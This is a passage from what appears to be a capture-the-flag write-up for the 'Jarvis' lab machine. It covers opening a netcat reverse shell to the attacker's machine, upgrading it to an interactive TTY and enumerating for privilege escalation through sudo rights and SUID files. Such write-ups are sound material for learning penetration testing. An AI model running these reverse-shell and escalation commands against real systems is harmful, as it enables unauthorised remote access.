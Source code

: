 Excellent! we got os execution on this data base. Then we will create a reverse shell to our kali linux.

```bash
nc -lvp 1234
```

```bash
which nc
nc -e /bin/sh 10.10.14.16 1234
```

Greet! After we get the reverse shell, then we upgrade this shell;

![[Jarvis-07.png]]

```bash
which python
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```

Great! Now we have interactive shell. Let's check our user information:

```bash
id
whoami
```

![[Jarvis-08.png]]

Note that first shell was www-data shell. Means that we need upgrade it to common user shell.

### Privilege Escalation

#### From www-data to pepper

First let's enumerate more information.

```bash
cat /etc/crontab
sudo -l
find / -perm -u=s -type f 2>/dev/null
```

And we got output of `sudo -l`:

```
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py

```
